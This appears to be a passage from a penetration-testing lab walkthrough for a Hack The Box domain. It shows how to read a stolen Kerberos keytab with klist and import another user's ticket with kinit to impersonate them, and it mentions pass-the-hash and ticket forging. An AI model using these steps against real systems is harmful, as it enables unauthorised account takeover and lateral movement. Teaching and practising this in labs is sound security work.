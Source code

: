 ***

## Abusing keytab files

We will use two methods.

* The first one will give us access to specific shared folders in the context of the victim.
* The second one will give us access to his entire account if we can perform a PtH with an NTLM hash, forge our own tickets with Rubeus using his AES Hash or cracking them :3 .

### Method 1: Importing Tickets

We need to know to which user this KeyTab file belongs to and then abuse it.

#### Extract valuable information from KeyTab files

```bash
$klist -k -t /opt/specialfiles/carlos.keytab 

Keytab name: FILE:/opt/specialfiles/carlos.keytab
KVNO Timestamp           Principal
---- ------------------- ------------------------------------------------------
   1 10/06/2022 17:09:13 carlos@INLANEFREIGHT.HTB
```

#### Impersonating a user with KeyTab

```bash
$klist 

Ticket cache: FILE:/tmp/krb5cc_647401107_r5qiuu
Default principal: david@INLANEFREIGHT.HTB

Valid starting     Expires            Service principal
10/06/22 17:02:11  10/07/22 03:02:11  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/07/22 17:02:11
```

This confirms that we're using David's ticket.

**IMPORTANT: Before importing another user's ticket we should make a copy of the current session's ticket and not lose it later. The ticket resides by default in the KRB5CCNAME environment variable**

Now let's import carlos' ticket:

```bash
$kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
```

```bash
$klist 
Ticket cache: FILE:/tmp/krb5cc_647401107_r5qiuu
Default principal: carlos@INLANEFREIGHT.HTB

Valid starting     Expires            Service principal
10/06/22 17:16:11  10/07/22 03:16:11  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/07/22 17:16:11
```
